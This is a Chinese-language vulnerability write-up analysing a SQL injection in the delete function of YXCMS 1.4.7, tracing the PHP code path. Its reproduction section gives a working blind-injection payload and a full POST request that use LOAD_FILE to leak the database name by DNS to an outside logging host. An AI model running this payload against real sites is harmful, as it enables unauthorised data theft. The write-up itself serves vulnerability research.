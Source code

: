YXCMS 1.4.7SQL注入
==================

一、漏洞简介
------------

二、漏洞影响
------------

1.4.7

三、复现过程
------------

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

    public function del()
    {
        if(!$this->isPost()){
            $id=intval($_GET['id']);
            if(empty($id)) $this->error('您没有选择~');
            if(model('fragment')->delete("id='$id'"))
            echo 1;
            else echo '删除失败~';
        }else{
            if(empty($_POST['delid'])) $this->error('您没有选择~');
            $delid=implode(',',$_POST['delid']);
            if(model('fragment')->delete('id in ('.$delid.')'))
            $this->success('删除成功',url('fragment/index'));
        }
    }

我们跟if(model(\'fragment\')-\>delete(\"id=\'\$id\'\")),它会先到protected/core.php文件里面的model

    function model($model){
        static $objArray = array();
        $className = $model . 'Model';
        if( !is_object($objArray[$className]) ){
            if( !class_exists($className) ) {
                throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
            }
            $objArray[$className] = new $className();
        }
        return $objArray[$className];
    }

然后到protected/apps/admin/model/fragmentModel.php

    <?php
    class fragmentModel extends baseModel{
        protected $table = 'fragment';
    }

继续protected/base/model/baseModel.php

    <?php
    class baseModel extends model{
         protected $prefix='';
         public function __construct( $database= 'DB',$force = false ){
            parent::__construct();
            $this->prefix=config('DB_PREFIX');
        }
    }

再来到最底层的数据库操作类protected/base/model/model.php的第45行

    public function delete($condition){
    return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
        }

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

    static public function connect($config, $force=false){
            static $model = NULL;
            if( $force==true || empty($model) ){
                $model = new cpModel($config);
            }
            return $model;
        }

漏洞文件在protected/include/core/cpModel.class.php,

    public function delete() {
            $table = $this->options['table'];   //当前表
            $where = $this->_parseCondition();  //条件
            if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

            $this->sql = "DELETE FROM $table $where";
            $query = $this->db->execute($this->sql);
            return $this->db->affectedRows();
        }

这里用到了一个方法\_parseCondition()

    private function _parseCondition() {
            $condition = $this->db->parseCondition($this->options);
            $this->options['where'] = '';
            $this->options['group'] = '';
            $this->options['having'] = '';
            $this->options['order'] = '';
            $this->options['limit'] = '';
            $this->options['field'] = '*';      
            return $condition;      
        }
    }

这个函数是在protected/include/core/db/cpMysql.class.php的128行

    public function parseCondition($options) {
            $condition = "";
            if(!empty($options['where'])) {
                $condition = " WHERE ";
                if(is_string($options['where'])) {
                    $condition .= $options['where'];
                } else if(is_array($options['where'])) {
                        foreach($options['where'] as $key => $value) {
                             $condition .= " `$key` = " . $this->escape($value) . " AND ";
                        }
                        $condition = substr($condition, 0,-4);  
                } else {
                    $condition = "";
                }
            }

            if( !empty($options['group']) && is_string($options['group']) ) {
                $condition .= " GROUP BY " . $options['group'];
            }
            if( !empty($options['having']) && is_string($options['having']) ) {
                $condition .= " HAVING " .  $options['having'];
            }
            if( !empty($options['order']) && is_string($options['order']) ) {
                $condition .= " ORDER BY " .  $options['order'];
            }
            if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
                $condition .= " LIMIT " .  $options['limit'];
            }
            if( empty($condition) ) return "";
            return $condition;
        }

里面有一个行数来过滤escape,我们找到74行的这个函数定义

    public function escape($value) {
            if( isset($this->_readLink) ) {
                $link = $this->_readLink;
            } elseif( isset($this->_writeLink) ) {
                $link = $this->_writeLink;
            } else {
                $link = $this->_getReadLink();
            }

            if( is_array($value) ) { 
               return array_map(array($this, 'escape'), $value);
            } else {
               if( get_magic_quotes_gpc() ) {
                   $value = stripslashes($value);
               } 
                return  "'" . mysql_real_escape_string($value, $link) . "'";
            }
        }

不过这个函数有一句is\_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io和python脚本跑](http://ceye.io和python脚本跑)

    http://0-sec.org/index.php?r=admin/fragment/index

payload:

    1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

    - 点击删除

post包

    POST /index.php?r=admin/fragment/del HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 188
    Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
    Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
    Connection: close
    Upgrade-Insecure-Requests: 1

    delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7SQL注入/media/rId27.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7SQL注入/media/rId28.png)

然后进入<http://ceye.io/records/dns> 查看我们的数据

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7SQL注入/media/rId30.shtml)
